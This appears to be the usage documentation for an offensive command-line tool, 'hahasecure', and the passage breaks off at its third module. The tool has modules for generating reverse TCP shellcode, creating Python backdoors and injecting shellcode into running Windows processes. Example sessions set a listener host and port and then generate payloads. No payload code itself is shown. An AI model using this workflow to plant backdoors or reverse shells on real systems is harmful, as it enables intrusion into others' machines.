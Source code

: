 ```
hahasecure > 
Available commands:

help: Show the help menu.

use <module>: Switch to a specific module (e.g., use shellcode).

show <database>: Show available options for a module (e.g., show shellcodes).

os <command>: Execute an OS command.

clear: Clear the screen.

exit: Exit the tool.
```
### Modules
1. Shellcode Module
- Generate shellcode for reverse TCP connections.

### Commands:

- set <option> <value>: Set options like LHOST, LPORT, and PLATFORM.

- generate: Generate shellcode.

- show options: Show current options.

#### **Example:**

```
hahasecure > use shellcode
hahasecure/shellcode > set LHOST 192.168.1.100
hahasecure/shellcode > set LPORT 4444
hahasecure/shellcode > set PLATFORM linux/x64
hahasecure/shellcode > generate
```
2. Backdoor Module
- Create Python-based backdoors.

### Commands:

- set <option> <value>: Set options like LHOST, LPORT, and PLATFORM.

- generate: Generate a backdoor.

- show options: Show current options.

#### **Example:**
```
hahasecure > use backdoor
hahasecure/backdoor > set LHOST 192.168.1.100
hahasecure/backdoor > set LPORT 4444
hahasecure/backdoor > set PLATFORM python/windows
hahasecure/backdoor > generate
```
3. Injector Module
- Inject shellcode into a running process (Windows only).
